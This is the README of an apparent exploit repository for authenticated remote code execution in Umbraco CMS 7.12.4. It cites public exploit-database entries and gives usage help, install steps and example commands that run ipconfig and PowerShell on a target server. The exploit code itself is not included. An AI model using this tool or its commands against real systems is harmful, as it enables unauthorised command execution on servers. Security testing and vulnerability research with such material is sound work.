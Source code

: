 # Umbraco RCE exploit / PoC

> Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution

[[EDB-49488]](https://www.exploit-db.com/exploits/49488) [[PacketStorm](https://packetstormsecurity.com/files/158712/Umbraco-CMS-7.12.4-Remote-Code-Execution.html)] [[WLB-2020080012](https://cxsecurity.com/issue/WLB-2020080012)]

## Usage

```
$ python exploit.py -h
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD [-a ARGS]

Umbraco authenticated RCE

optional arguments:
  -h, --help                 show this help message and exit
  -u USER, --user USER       username / email
  -p PASS, --password PASS   password
  -i URL, --host URL         root URL
  -c CMD, --command CMD      command
  -a ARGS, --arguments ARGS  arguments
```

Examples:

```
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c powershell.exe -a '-NoProfile -Command ls'
```

## Requirements

- [Beautiful Soup](https://www.crummy.com/software/BeautifulSoup/index.html)
- [Requests](https://requests.readthedocs.io/en/master/)

Example for ArchLinux:

```
pacman -S python-beautifulsoup4 python-requests
```

Example using pip:

```
pip3 install -r requirements.txt
```

## Reference

This is a better re-write of [EDB-ID-46153](https://www.exploit-db.com/exploits/46153) using arguments (instead of harcoded values) and with stdout display.

Tested with python 3.8.
